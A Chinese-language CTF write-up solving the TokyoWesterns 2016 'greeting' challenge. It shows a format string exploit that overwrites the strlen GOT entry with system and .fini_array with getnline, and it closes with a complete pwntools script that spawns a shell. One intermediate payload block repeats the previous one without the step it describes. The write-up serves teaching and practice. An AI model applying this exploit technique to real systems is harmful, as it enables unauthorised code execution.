

# 3.3 Tokyowesterns 2016 greeting
实验环境

```python
ubnuntu 16.04.7 x32
```
先看下文件信息

```cpp
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```
运行程序


可以看到`000011112222`的输出偏移了两位，进行校正后如下


从上面能够得到偏移为12， 13， 14，15 这四个位置。

接下来使用`IDA`来反编译程序

```cpp
// main
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [esp+1Ch] [ebp-84h] BYREF
  char v5[64]; // [esp+5Ch] [ebp-44h] BYREF
  unsigned int v6; // [esp+9Ch] [ebp-4h]

  v6 = __readgsdword(0x14u);
  printf("Please tell me your name... ");
  if ( !getnline(v5, 64) )
    return puts("Don't ignore me ;( ");
  sprintf(s, "Nice to meet you, %s :)\n", v5);
  return printf(s);
}

// getline
size_t __cdecl getnline(char *s, int n)
{
  char *v3; // [esp+1Ch] [ebp-Ch]

  fgets(s, n, stdin);
  v3 = strchr(s, 10);
  if ( v3 )
    *v3 = 0;
  return strlen(s);
}
```
从上面可以看出在`return printf(s)`处存在格式化字符串漏洞，同时在`getline`函数内部存在`strlen`函数，该函数也是接收一个字符串作为参数。那么我们可以把`strlen`函数的`got`地址修改为`system`函数的`plt`地址。

还有个问题就是当`return printf(s)`调用完后才能触发漏洞，但是此时函数已经退出了，所以这里需要引入`.fini_array` 来进行处理。在`linux`文件中存在`.init_array` 和`.fini_array` ，前者是在`main`函数执行之前会执行该节内部的代码，后者是当函数退出时候执行其内部的代码。

所以这里我们可以把`getline`函数的地址写入到`.fini_array`内部，当程序退出后会继续执行`getline`函数，而`getline`函数内部的`strlen`函数已经被我们替换成了`system`函数的地址，实际上是执行`system`函数。


首先获取`strlen`函数的`got`地址：`0x08049a54`



`system`的`plt`地址：`0x08048490`


`.fini_array`的地址：`0x08049934 - 0x08049938` 


那么接下来首先做的是使用`getline`函数地址覆盖`.fini_array`的地址，因为`getline`函数需要传入参数，所以我们可以把地址`0x08048614` 覆盖到`.fini_array`中。


目前来看我们所需要修改的信息如下：

```python
0x08049a54 ==> 0x08048490    # 覆盖 strlen
0x08049934 ==> 0x08048614    # 覆盖 .fini_array         
```
然后我们要做的就是查看地址`0x08049934` 的值是多少，我们要把他的值覆盖为`0x08048614` 。从`IDA` 的代码中可以看到`printf`输出的字符串有`Nice to meet you, ` ，然后我们的输入还存在`2` 个偏移地址，加起来就是`20`个字符。

接着我们还要传入要修改的地址，每个的长度为4个字节

```cpp
p32(0x08049934)    // .fini_array 低位
p32(0x08049934 + 2)    // .fini_array 高位
p32(0x08049a54)        // strlen got 低位
p32(0x08049a54 + 2)     // strlen got 高位
```
把地址长度和字符长度加起来后为`0x24` ，所以当我们输入如下的时候

```python
payload = "xx"
payload += p32(0x08049934)        # .fini_array addr
payload += p32(0x08049934 + 2)
payload += p32(0x08049a54)        # strlen_got addr
payload += p32(0x08049a54 + 2)
payload += "%12$n%13$n%14$n%15$n"    # n 只写入低位，hhn, hn 可写入高位   
```
此时`.fini_array` 和`strlen_got`地址处的值均为`0x00240024`


现在可以进行一下简单的数学运算，把`0x0024` 增加到`0x8614` : `0x8614 - 0x0024 = 34288` 

此时的`payload`如下，并且再次进入`gdb`调试

```python
payload = "xx"
payload += p32(0x08049934)        # .fini_array addr
payload += p32(0x08049934 + 2)
payload += p32(0x08049a54)        # strlen_got addr
payload += p32(0x08049a54 + 2)
payload += "%34288x"                # offset 12
payload += "%12$n%13$n%14$n%15$n"    # n 只写入低位，hhn, hn 可写入高位   

```
此时的值为`0x86148614`


可以看到`.fini_array`和`strlen_got`的高位地址都改为`0x8614`了，所以这两个稍后一起修改。

我们先修改`strlen_got`的低位地址，`0x18490 - 0x8614 = 65148` ，这里需要溢出一位，但是对程序没有影响。

```python
payload = "xx"
payload += p32(0x08049934)        # .fini_array addr
payload += p32(0x08049934 + 2)
payload += p32(0x08049a54)        # strlen_got addr
payload += p32(0x08049a54 + 2)
payload += "%34288x"                # offset 12
payload += "%12$n"    # n 只写入低位，hhn, hn 可写入高位   
payload += "%65148x"                # offset 14
payload += "%14$n"
payload += "%13$n%15$n"

```
此时的值如下


接着修改这两个位置高位的值：`0x10804 - 0x8490 = 33652` ，此时`payload` 如下

```python
payload = "xx"
payload += p32(0x08049934)        # .fini_array addr
payload += p32(0x08049934 + 2)
payload += p32(0x08049a54)        # strlen_got addr
payload += p32(0x08049a54 + 2)
payload += "%34288x"                # offset 12
payload += "%12$n"    # n 只写入低位，hhn, hn 可写入高位   
payload += "%65148x"                # offset 14
payload += "%14$n"
payload += "%13$n%15$n"
```
修改成功


最终的`payload` 如下

```python
from pwn import *

# Establish the target process
target = process('greeting')
gdb.attach(target, gdbscript = 'b *0x0804864f')

# The values we will be overwritting
finiArray = 0x08049934
strlenGot = 0x08049a54

# The values we will be overwritting with
getline = 0x8048614
systemPlt = 0x8048490

# Establish the format string
payload = ""

# Just a bit of padding
payload += "xx"

# Address of fini array
payload += p32(finiArray)

# Address of fini array + 2
payload += p32(finiArray + 2)

# Address of got entry for strlen
payload += p32(strlenGot)

# Address of got entry for strlen + 2
payload += p32(strlenGot + 2)

# Write the lower two bytes of the fini array with loop around address (getline setup)
payload += "%34288x"
payload += "%12$n"

# Write the lower two bytes of the plt system address to the got strlen entry
payload += "%65148x"
payload += "%14$n"

# Write the higher two bytes of the two address we just wrote to
# Both are the same (0x804)
payload += "%33652x"
payload += "%13$n"
payload += "%15$n"

# Print the length of our fmt string (make sure we meet the size requirement)
print "len: " + str(len(payload))

# Send the format string
target.sendline(payload)

# Send '/bin/sh' to trigger the system('/bin/sh') call
target.sendline('/bin/sh')

# Drop to an interactive shell
target.interactive()
```
